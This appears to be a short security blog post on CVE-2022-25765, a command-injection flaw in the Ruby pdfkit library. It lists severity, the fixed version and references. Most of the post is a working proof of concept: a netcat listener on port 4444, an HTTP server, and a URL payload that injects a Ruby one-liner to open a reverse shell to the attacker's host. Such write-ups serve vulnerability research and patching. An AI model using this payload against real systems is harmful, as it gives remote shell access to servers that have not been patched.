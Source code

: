 ```yaml
---
title: CVE-2022-25765 pdfkit
author: D_captain
date: 2022-10-08 11:33:00 +0300
categories: [CVE]
tags: [shell, rce, pdfkit, poc, cve, d_captain]
math: true
mermaid: true
image:
  path: /assets/img/posts/pdfkit.jpeg
  alt: source (https://www.bio-logical-it.com/).
---
```


# pdfkit-Exploit-Reverse-Shell

All < 0.8.6 versions of this package are vulnerable to Command Injection where the URL is not properly sanitized.

---


## Severity

> Critical 9.8/10
{: .prompt-danger }

 

## Note
This issue was originally addressed in 0.8.7, but the fix was not complete. A complete fix was released in 0.8.7.2.


## Pre-requisites setup

HTTP Server
: - python3 -m http.server 9090

Netcat Listener
: - nc -lvnp 4444


### Reverse Ruby shell

```bash
http://LOCAL-IP:9090/?name=%20`ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("LOCAL-IP",4444))'`
```


##  How to fix?

Upgrade pdfkit to version `0.8.7.2` or higher.



## Reference

[**https://nvd.nist.gov/vuln/detail/CVE-2022-25765**](https://nvd.nist.gov/vuln/detail/CVE-2022-25765)

[**https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795**](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795)

